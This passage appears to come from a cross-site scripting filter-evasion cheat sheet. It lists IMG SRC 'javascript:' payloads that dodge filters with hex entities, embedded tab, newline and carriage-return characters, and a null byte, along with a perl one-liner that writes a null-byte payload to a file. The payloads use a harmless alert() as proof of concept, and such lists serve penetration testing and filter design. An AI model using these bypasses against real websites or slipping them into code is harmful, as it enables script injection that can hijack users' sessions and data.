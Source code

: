 ```js
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
```

## Embedded Tab
Used to break up the cross site scripting attack:

```js
<IMG SRC="javascript:alert('XSS');">
```

## Embedded Encoded Tab
Use this one to break up XSS :

```js
<IMG SRC="jav&#x09;ascript:alert('XSS');">
```

## Embedded Newline to Break-up XSS
Some websites claim that any of the chars 09-13 (decimal) will work for this attack. That is incorrect. Only 09 (horizontal tab), 10 (newline) and 13 (carriage return) work. See the ascii chart for more details. The following four XSS examples illustrate this vector:

```js
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
```

## Embedded Carriage Return to Break-up XSS
(Note: with the above I am making these strings longer than they have to be because the zeros could be omitted. Often I’ve seen filters that assume the hex and dec encoding has to be two or three characters. The real rule is 1-7 characters.):

```js
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
```

## Null breaks up JavaScript Directive
Null chars also work as XSS vectors but not like above, you need to inject them
- directly using something like Burp Proxy
- use `%00` in the URL string
- write your own injection tool you can either use vim (`^V^@` will produce a null) or the following program to generate it into a text file.
- older versions of Opera (circa 7.11 on Windows) were vulnerable to one additional char 173 (the soft hypen control char).
- But the null char `%00` is much more useful and helped to bypass certain real world filters with a variation on this example:

```js
perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out
```

